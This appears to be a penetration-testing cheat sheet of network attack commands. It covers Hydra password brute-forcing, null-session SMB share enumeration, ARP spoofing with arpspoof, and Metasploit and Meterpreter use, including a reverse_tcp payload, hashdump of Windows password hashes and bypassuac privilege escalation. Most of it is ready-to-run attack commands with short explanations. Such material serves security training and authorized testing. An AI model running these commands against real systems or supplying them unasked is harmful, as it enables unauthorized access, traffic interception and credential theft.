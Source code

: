 # Network Attacks 

### Seclists

[SecLists](https://github.com/danielmiessler/SecLists) is a great list containing common usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and more.

```
apt-get install seclists
```

### Hydra

Hydra is a fast, parallelized, network authentication cracker that supports different protocols.
```
hydra -L <users file> -P <password file> -t 10 <target> ssh -s 22
hydra -L <users file> -P <password file> telnet://<target>
```

### Windows Shares

NetBIOS can supply some of the following information when querying a computer:

- Hostname
- NetBIOS name
- Domain
- Network Shares

Badly configured shares exploitation can lead to:

- Information disclosure
- Unauthorized file access
- Information leakage used to mount a target attack

Null session attacks can be used to enumerate a lot of information. Attackers can steal information about:

- Passwords
- System users
- System Groups
- Running system processes
```
# Most common windows command to enumerate Windows shares
nbtstat -A <target>
```

```
# Once an attacker knows that a machine has the File Server service running, they can enumerate the shares using NET VIEW
NET VIEW <target>

# This tells Windows to connect to the IPC$ share by using an empty password and empty username
NET USE \\<target IP address>\IPC$ "" /u:''
```

```
# These commands can be used on a linux machine to enumerate network shares
nmblookup -A <target>

# Smbclient can do the same as NET VIEW but it also displays administrative shares that are hidden when using Windows standard tools
smbclient -L //<target> -N (list shares without asking for password)
smbclient //<target>/share -N (mount share)

# enum4linux is very powerful PERL script that can be used to enumerate Windows shares
enum4linux -a <target>
```
By default enum4linux performs:

- User enumeration
- Share enumeration
- Group and member enumeration
- Password policy extraction
- OS information detection
- A nmblookup run
- Printer information extraction

### ARP Poisoning/Spoofing (Dsniff)

ARP Poisoning is a powerful attack you can use to intercept traffic on a switched network.

```
# tells my machine to forward packets intercepted to the real destination hosts
echo 1 > /proc/sys/net/ipv4/ip_forward

# arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

# Example: to intercept traffic between 192.168.1.5 and 192.168.1.6 
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.5 -r 192.168.1.6
# Then run Wireshark and intercept the traffic
```

### Metasploit

Metasploit is an open-source framework used for penetration testing and exploit development.

Metasploit gives you a wide array of commuunity contributed exploits and attack vectors that can be used against various systems and technoologies.

Basic workflow to exploit a target using MSFConsole:

- Identifying a vulnerable service
- Searching for a proper exploit for that service
- Loading and configuring the exploit
- Loading and configuring the payload you want to use
- Running the exploit code and getting access to the vulnerable machine

```
# Starts up metasploit console
msfconsole

# Search all modules by term
search <search term>

# Setting which module to use
use /path/to/exploit

# Once a module is being used to show all options to configure
show options

# Use set command and name of setting to configure all settings
set payload /path/to/payload
set RHOST <remote host>
set RPORT <remote port>

# To run/exploit module
run
exploit
```

Payloads are pieces of code injected by an exploit module into the victim machine or service.

A payload is used by an attacker to get:

- An OS Shell
- A VNC or RDP connection
- A Meterpreter shell
- The execution of an attacker-supplied application

### Meterpreter

Meterpreter is a very powerful shell which runs on Android, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services.

Meterpreter is more than a simple shell. It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more.

Meterpreter lets you perform information gathering on the exploited machine and the network it is attached to. You can retrieve:

- Information about the machine and the OS
- The network configuration in use
- The routing table of the compromised host
- Information about the user running the exploited process

```
# You can set your payload to be a meterpreter shell before running it
set payload <windows, linux, java etc>/meterpreter/reverse_tcp

# Once you have a meterpreter session open you can background it or use Ctrl+z
background

# Use the sessions command to see all current running sessions
sessions
sessions -l

# Use the -i flag and the sessions number to interact with it
sessions -i 1

# Useful information gathering commands once in meterpreter shell
sysinfo
ifconfig
route
getuid
getsystem

# The hashdump module dumps the password database of a Windows machine
use post/windows/gather/hashdump
set session 1
run

# bypassuac is a module you can use to bypass uac control on a windows machine
use exploit/windows/local/bypassuac
show options
set session 1
exploit
getuid (now having administrative privileges)

# The shell command gives you a standard OS shell
shell
```
